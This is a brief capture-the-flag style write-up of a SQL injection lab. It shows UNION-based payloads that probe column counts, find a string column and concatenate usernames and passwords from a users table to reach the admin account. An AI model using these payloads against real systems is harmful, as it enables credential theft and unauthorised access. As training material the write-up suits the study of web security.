

Clicking one of the categories and appending `'` character to the url will cause an internal error and verify that it's vulnerable to sqli.

To detect the number of columns use union payload.

```
' UNION SELECT NULL --
' UNION SELECT NULL,NULL --     <- will work
```

But using 

```
' UNION SELECT username,password FROM users --
```
won't work. Because only one of them string. 

```
' UNION SELECT 'asd',NULL --    <- error
' UNION SELECT NULL,'asd' --    <- works
```

Using group concat doesn't work so when I looked up concatenation operator I found [this](https://www.geeksforgeeks.org/sql-concatenation-operator/)

New payload would be
```
' UNION SELECT NULL,username || '//' || password FROM users --
```



By logging into admin account we can complete the challenge. 
